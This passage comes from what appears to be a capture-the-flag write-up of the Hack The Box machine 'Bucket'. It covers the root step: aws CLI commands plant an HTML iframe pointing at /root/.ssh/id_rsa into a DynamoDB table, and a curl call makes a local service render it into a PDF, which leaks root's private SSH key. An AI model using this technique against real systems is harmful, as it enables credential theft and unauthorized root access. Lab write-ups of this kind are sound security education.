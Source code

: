 Once we have be able to make the request work, the second step is finding a way to get sensitive data into the PDF file.

Easiest way would be to import `/root/root.txt`, but this don't give us any interactive shell in the box. Just like we did in [**Passage**]({% post_url 2021-03-06-htb-passage %}), we can look for the file `/root/.ssh/id_rsa` and use it to SSH into the machine as root but our issue right now is to find a way to import this file in the static HTML file that will later be rendered into the PDF.

After some research, the easiest way without using a Javascript to make this possible would be using an **iframe**, which I've added the tag `<iframe src="/root/.ssh/id_rsa" seamless></iframe>` in the HTML content sent earlier:

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><iframe src=\"/root/.ssh/id_rsa\" seamless></iframe></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/    
```

After running it, was able to download the file at `/var/www/bucket-app/files/result.pdf` and, with the contents inside it, created the file `id_rsa`, which was used to authenticate to SSH to the box as `root`, being able to read the root.txt file.

```bash
root@bucket:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bucket:~# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed this post.

See you again soon! :smiley:
